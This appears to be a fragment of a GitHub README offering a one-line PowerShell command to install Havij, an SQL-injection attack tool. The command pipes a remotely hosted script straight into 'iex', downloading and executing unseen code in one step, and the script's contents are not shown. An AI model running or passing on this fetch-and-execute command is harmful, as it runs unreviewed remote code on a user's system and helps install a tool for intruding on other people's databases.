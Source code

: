 ## Powershell command for havij
```powershell
irm https://raw.githubusercontent.com/sahmsec/Tools/main/Havij/aws-install.ps1 | iex
